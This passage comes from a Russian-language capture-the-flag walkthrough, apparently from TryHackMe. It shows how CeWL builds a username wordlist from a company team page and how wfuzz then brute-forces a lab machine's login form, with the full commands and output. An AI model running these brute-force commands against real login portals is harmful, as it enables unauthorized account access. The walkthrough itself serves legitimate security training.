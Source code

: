 Создайте список имен пользователей с помощью CeWL: используйте страницу «Члены команды AntarctiCrafts», чтобы 
создать список слов, который потенциально может содержать имена пользователей сотрудников. 
Терминал

```commandline
user@tryhackme$ cewl -d 0 -m 5 -w usernames.txt http://MACHINE_IP/team.php --lowercase
user@tryhackme$ cat usernames.txt
start
antarcticrafts
stylesheet
about
contact
services
sculptures
libraries
template
spinner
[--snip--]
```
Перебор паролей на портале входа с помощью wfuzz: Когда ваш список слов готов, а список имен пользователей со 
страницы «Участники команды» готов, пора протестировать портал входа. Используйте wfuzz для перебора паролей на 
/login.php.  
Что такое wfuzz? Wfuzz — это инструмент, предназначенный для брутфорса веб-приложений. Его можно использовать для 
поиска ресурсов, не связанных каталогов, сервлетов, скриптов и т. д., брутфорса параметров GET и POST для проверки 
различных видов инъекций (SQL, XSS , LDAP), брутфорса параметров форм (пользователь/пароль) и фаззинга.  

Терминал
```commandline
user@tryhackme$ wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://MACHINE_IP/login.php -d "username=FUZZ&password=FUZ2Z"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://MACHINE_IP/login.php
Total requests: 60372

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                             
=====================================================================

000018052:   302        124 L    323 W      5047 Ch     "REDACTED - REDACTED"                                

Total time: 412.9068
Processed Requests: 60372
Filtered Requests: 60371
Requests/sec.: 146.2121
```
